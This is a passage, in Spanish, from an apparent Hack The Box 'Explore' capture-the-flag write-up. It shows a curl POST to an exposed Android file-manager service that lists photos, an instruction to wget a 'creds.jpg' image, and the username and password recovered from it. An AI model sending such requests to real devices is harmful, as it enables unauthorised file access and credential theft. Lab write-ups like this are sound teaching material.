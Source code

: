 ```bash
{"name":"backups", "time":"3/13/21 05:30:13 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Ringtones", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }
]                                                                                                                                                                                                                                             
```

Al seguir enumerando archivos con la lista de comandos disponibles para buscar la menera de poder comprometer el dispositivo al enviar listPics obtenemos una imagen con la palabra "creds":

```bash
┌──(kali㉿kali)-[~/machines/htb/explore]
└─$ curl --header "Content-Type: application/json" --request POST --data "{\"command\":listPics}" http://10.10.10.247:59777
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
]
```
Para poder ver el contenido de esta foto simplemente basta con poder hacer un wget a la ruta http://IP:PORT/storage/emulated/0/DCIM/creds.jpg

<img src="../../assets/images/explore/creds.png">

```text
kristi:Kr1sT!5h@Rp3xPl0r3!
```
